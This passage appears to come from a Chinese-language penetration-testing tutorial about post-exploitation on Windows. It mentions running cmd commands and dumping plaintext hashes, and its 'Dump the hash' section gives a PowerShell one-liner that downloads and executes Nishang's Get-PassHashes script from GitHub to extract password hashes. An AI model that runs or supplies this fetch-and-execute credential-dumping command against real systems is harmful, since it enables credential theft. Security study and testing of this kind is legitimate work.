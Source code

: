 并且可以正常执行 cmd 命令、dump hash 明文等操作。

![enter image description here](img/img3_u90_png.jpg)

![enter image description here](img/img4_u79_png.jpg)

## 0x03 Dump the hash

* * *

当然在仅仅需要 dump hash 时，也可以借助 powershell 来完成。

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes 
```
